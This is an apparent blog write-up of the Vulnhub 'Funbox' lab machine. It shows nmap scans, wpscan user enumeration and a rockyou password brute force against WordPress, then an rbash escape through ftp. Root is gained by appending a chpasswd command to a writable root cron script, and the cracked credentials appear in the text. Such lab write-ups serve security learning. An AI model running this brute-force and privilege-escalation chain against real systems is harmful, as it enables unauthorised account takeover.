 ```yaml
---
title: Vulnhub - Funbox
description: My writeup on Funbox box.
categories:
 - vulnhub
tags: vulnhub wordpress rbash ssh cronjob wpscan pspy
---
```


![](https://i.imgur.com/FuewCDo.png)

Hi all, let's start!

You can find the machine there > [Funbox](https://www.vulnhub.com/entry/funbox-1,518/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.10
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-02 13:27 EEST
Nmap scan report for funbox.zte.com.cn (192.168.1.10)
Host is up (0.00024s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx
MAC Address: 08:00:27:87:6E:0C (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.51 seconds
$ nmap -p 21,22,80,33060 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-02 13:27 EEST
Nmap scan report for funbox.zte.com.cn (192.168.1.10)
Host is up (0.00042s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     ProFTPD
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://funbox.fritz.box/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
```

Let's enumerate the port 80 first, when we visit it we get an error and redirect us to `http://funbox.fritz.box/` seems like  virtual host. We have to add it to `/etc/hosts` 

```
$ nano /etc/hosts
...
192.168.1.10    funbox.fritz.box
```

Now we can see a wordpress site, let's run `wpscan` on it.

```
$ wpscan --no-banner --url http://funbox.fritz.box/ -e ap,u
...

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==========================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://funbox.fritz.box/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] joe
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

No plugins but we can see 2 users `admin,joe` let's run a brute force attack on them with rockyou.

```
$ wpscan --no-banner --url http://funbox.fritz.box/ -U admin,joe -P /usr/share/wordlists/rockyou.txt 
...

[+] Performing password attack on Wp Login against 2 user/s
[SUCCESS] - joe / 12345                                                                                                                                                                 
[SUCCESS] - admin / iubire                                                                                                                                                              
Trying admin / iubire Time: 00:00:09 <                                                                                                          > (670 / 14344394)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: joe, Password: 12345
 | Username: admin, Password: iubire
```

## shell as joe - rbash bypass 

Perfect, now we can use the same creds for ssh. `joe:12345` LOL.

```
$ ssh joe@$ip
joe@192.168.1.10's password: 
joe@funbox:~$ echo $SHELL
/bin/rbash
```

We're in `rbash` we can simply bypass that.

```
joe@funbox:~$ ftp
ftp> !/bin/bash
```

## joe -> root

Under `/home/funny` i found a hidden backup.sh file that seems like a cronjob:

```
joe@funbox:/home/funny$ cat .backup.sh 
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
```

Let's run [pspy](https://github.com/DominicBreuker/pspy){:target="_blank"} to confirm the cronjob.

```
joe@funbox:/tmp$ ./pspy64 -p -i 1000
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     
...

2020/09/02 10:44:01 CMD: UID=1000 PID=3209   | /bin/bash /home/funny/.backup.sh 
2020/09/02 10:44:01 CMD: UID=1000 PID=3208   | /bin/sh -c /home/funny/.backup.sh 
2020/09/02 10:44:01 CMD: UID=1000 PID=3210   | tar -cf /home/funny/html.tar /var/www/html 

2020/09/02 10:45:01 CMD: UID=0    PID=3217   | /bin/sh -c /home/funny/.backup.sh 
2020/09/02 10:45:01 CMD: UID=0    PID=3219   | tar -cf /home/funny/html.tar /var/www/html 
2020/09/02 10:45:01 CMD: UID=0    PID=3218   | /bin/bash /home/funny/.backup.sh 
```

We can see it runs as UID 1000 and as UID 0, let's add a command that changes root password and wait 5 minutes to be sure.

```
joe@funbox:/tmp$ nano /home/funny/.backup.sh 
joe@funbox:/tmp$ cat /home/funny/.backup.sh 
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
echo 'root:pwned' | sudo chpasswd
```

And here we go:

```
joe@funbox:/tmp$ su - root
Password: 
root@funbox:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
root@funbox:~# 
```

Was fun! :)
